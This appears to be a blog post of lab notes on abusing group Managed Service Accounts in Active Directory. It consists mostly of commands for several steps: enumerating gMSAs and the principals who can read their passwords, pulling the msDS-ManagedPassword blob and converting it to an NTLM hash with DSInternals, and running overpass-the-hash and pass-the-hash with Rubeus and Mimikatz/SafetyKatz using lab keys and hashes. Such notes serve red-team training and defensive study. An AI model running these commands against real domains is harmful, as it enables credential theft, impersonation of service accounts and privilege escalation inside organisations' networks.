 ```yaml
---
layout: post
date: 26/11/2022
author: Aswin Gopalakrishnan
title:  Group Managed Service Accounts (gMSA) Abuse
---
```


A group Managed Service Account (gMSA) provides automatic password management, SPN management, and delegated administration for service accounts across multiple servers.

## Enumerate gMSAs and User

### AD
- `Get-ADServiceAccount -Filter *`
  - Find gMSAs in `us.techcorp.local` domain.
  - A gMSA has objectclass `msDS-GroupManagedServiceAccount`. This can be used to find gMSA accounts.
- `Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword`
  - Find the users/principals who have permissions to read the password. In this case, to read gMSA password of `jumpone` service account.

### PowerView
- `Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'`

## Over Pass-the-Hash

### Using Rubeus
- `Rubeus.exe asktgt /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /domain:us.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show`

### Using Loader and Mimikatz
- `.\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "Sekurlsa::pth /user:provisioningsvc /domain:us.techcorp.local /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /run:cmd.exe" "exit"`
- `sekurlsa::opassth`

## Fetch Password Blob
- `$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'`
- `Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1`
- `$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob`
- `ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword`
  - The attribute `msDS-ManagedPassword` stores the password blob in binary form of `MSDS-MANAGEDPASSWORD_BLOB`.
  - Once we have compromised a principal that can read the blob, use ADModule to read and DSInternals to compute NTLM hash.

## PTH and get Privs of gMSA
- `sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078`
